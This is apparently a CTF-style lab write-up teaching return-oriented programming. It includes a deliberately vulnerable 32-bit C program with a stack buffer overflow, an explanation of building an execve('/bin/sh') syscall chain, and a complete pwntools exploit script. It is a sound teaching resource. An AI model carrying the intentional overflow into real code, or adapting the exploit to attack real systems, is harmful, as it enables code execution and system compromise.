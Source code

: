 # ROP Static

## Source Code

```C
// gcc -m32 -fno-stack-protector -no-pie -static -o vuln vuln.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

char *str = "/bin/sh";          // <- RODATA

#define BUFFSIZE 136

void vuln()
{
    char buffer[BUFFSIZE];
    read(0, buffer, 0x200);     // <- this code causes buffer overflow
}

int main()
{
    vuln();
}
```

## Overview & Idea

- Let's check some informations about binary file

![img](/bi0s/ROP_Static/assets/check_file.png)

> NX is enabled so we can't ret2shellcode, but this program has statically linked and no PIE, we can use ROPgadget to find some gadgets in binary file and use it to implement something like exceve("/bin/sh", 0, 0) to get shell :3

## Details

### A bit about ROP

- Return Oriented Programming is a technique in which we use existing small snippets of assembly code/gadgets to create a chain of instructions which will eventually spawn a shell or cause the program to do some complex things. This is method is usually employed when there is a Stack buffer overflow and there are no win or give_shell functions. So we use ROP to invoke system or an execve syscall.

- Its called ROP as the basic idea of the technique is to use the ret statement to change control flow of the program. We use a tool called ROPgadget for finding gadgets. Another tool used for the same is ropper

- You can see this example to understand how does ROP work

![img](/bi0s/ROP_Static/assets/ROP.png)

- To implement exceve("/bin/sh", 0, 0), we look up exceve's system call number in the syscall table of x86_32 bit 

![img](/bi0s/ROP_Static/assets/exceve_syscall.png)

```
exceve("/bin/sh", 0, 0) in assembly

eax     -     0x0b
ebx     -     char* "/bin/sh"
ecx     -     0x0
edx     -     0x0

int     0x80
```

- First, we'll find the offset that we need to overwrite. By some simple steps, I found it's 148 bytes :3.

- Next, I found some gadgets below with ROPgadget.

![img](/bi0s/ROP_Static/assets/gadget.png)

- Finally, we need to find "/bin/sh" string, "/bin/sh" stored in RODATA because of its initialization `char *str = "/bin/sh"`

![img](/bi0s/ROP_Static/assets/bin_sh.png)

## Exploit

```python
# 0x0806003e : pop edx ; pop ebx ; pop esi ; ret
# 0x080a8b2a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
# 0x0805d393 : pop ecx ; ret
# 0x80b3008    "/bin/sh"
# 0x0804b5c2   int 0x80
# offset 148

from pwn import *

elf = ELF("./vuln")
p = elf.process()

payload = b"a"*148
payload += p32(0x0806003e)
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x2)
payload += p32(0x080a8b2a)
payload += p32(0x0b)
payload += p32(0x80b3008)
payload += p32(0x0)
payload += p32(0x0)
payload += p32(0x0805d393)
payload += p32(0x0)
payload += p32(0x0804b5c2)

p.sendline(payload)
p.interactive()
```

## Result

![img](/bi0s/ROP_Static/assets/result.png)

## Reference

[syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

[ROPstatic](https://wiki.bi0s.in/pwning/rop/static/)